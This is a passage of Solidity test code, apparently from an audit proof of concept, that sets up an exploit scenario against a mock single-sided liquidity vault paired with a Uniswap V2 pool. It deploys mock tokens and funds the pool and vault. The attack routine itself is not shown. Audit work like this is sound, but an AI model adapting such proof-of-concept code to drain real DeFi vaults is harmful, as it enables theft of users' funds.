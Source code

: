 ```solidity
    }

    function testExploit() external {
        // ENTRY POINT
        // Sets up the environment

        // Create OHM and the pair token
        ohm = new OlympusERC20Token(address(this));
        pairToken = new OlympusERC20Token(address(this));

        // Approve the router
        ohm.approve(address(router), type(uint256).max);
        pairToken.approve(address(router), type(uint256).max);

        // Create the Uniswap pool
        pool = IUniswapV2Pool(
            factory.createPair(address(ohm), address(pairToken))
        );

        // Bootstrap liquidity with 50_000 tokens on both sides.
        // This is assumed to be the existing pool state before the exploit is executed.
        deal(address(ohm), address(this), 50_000 ether);
        deal(address(pairToken), address(this), 50_000 ether);
        router.addLiquidity(
            address(ohm),
            address(pairToken),
            50_000 ether,
            50_000 ether,
            0,
            0,
            address(this),
            block.timestamp + 1
        );

        // Create the SSLV
        sslv = new MockSSLV(ohm, pairToken, pool, THRESHOLD);

        // Mint a large amount of OHM to the SSLV.
        // Simulates borrowing OHM when a user deposits.
        deal(address(ohm), address(sslv), 100_000_000 ether);

        // Approve the paired token to be used with the SSLV
        pairToken.approve(address(sslv), type(uint256).max);

        // Run main PoC
        main();
    }
}

// --------------------------------------------------------
/* 
    Mock SSLV

    This contract implements a simplified SingleSidedLiquidityPool
    that deposits funds on Uniswap V2. 
*/
contract MockSSLV {
    OlympusERC20Token ohm;
    OlympusERC20Token pairToken;
    IUniswapV2Pool pool;

    IUniswapV2Router router =
        IUniswapV2Router(0x7a250d5630B4cF539739dF2C5dAcb4c659F2488D);
```